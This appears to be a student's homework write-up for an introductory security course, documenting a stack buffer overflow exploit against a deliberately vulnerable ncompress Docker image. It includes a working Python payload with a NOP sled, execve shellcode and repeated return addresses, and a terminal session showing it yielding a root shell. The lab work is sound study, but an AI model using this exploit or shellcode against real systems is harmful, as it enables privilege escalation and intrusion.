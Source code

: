 # Homework #0

Topics: Github & Actions, Docker, Python, Bash, Buffer Overflows

# Write up of our first exploit (25 Points)
My exploit is the following:
--------------------------------------------------------------------------------
```import sys
import struct

payload = b""
payload += b"\x90" * 1000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload += b"\x90" * 16 
payload += struct.pack("<I", 0xffffc9dc+ 1000) *30

sys.stdout.buffer.write(payload)```
--------------------------------------------------------------------------------

I concluded from the source code (the input path is 1024 bytes long) that the buffer is 1024 bytes long. From gdb and testing i concluded that the return address is overwritten after 1068 bytes (buffer plus other stuff). So I added nearly this many bytes as a nop sled, then added the shellcode and some more nop sleds (the code didn't seem to work otherwise). Then I added the address of the return address many times to compensate if the memory addresses "move" a bit. That's the same reason I have added the return address earlier than the 1068 bytes needed offset that I found.
The return address was found using 'sudo dmesg' to inspect where the stack pointer was when the segfault occured. I then found (with trial and error) that 1000 bytes where sufficient to get me to the nop sled, leading to execution of my shellcode. I have tested this and it works in multiple instances.


--------------------------------------------------------------------------------
A successful invocation:
--------------------------------------------------------------------------------
```
~/Documents/hack_intro/erg1/hw0-KStamoulis$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@0d9b8c1aa83d:~$ echo hello | ncompress
��hʰa�Fubuntu@0d9b8c1aa83d:~$ python3 /exploit.py > /tmp/payload
ubuntu@0d9b8c1aa83d:~$ whoami
ubuntu
ubuntu@0d9b8c1aa83d:~$ ncompress `cat /tmp/payload`
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                      1�@̀����������������������������������������������������������������������������������������������������������������������������������������: File name too long
# whoami
root
# exit
ubuntu@0d9b8c1aa83d:~$ 
```
--------------------------------------------------------------------------------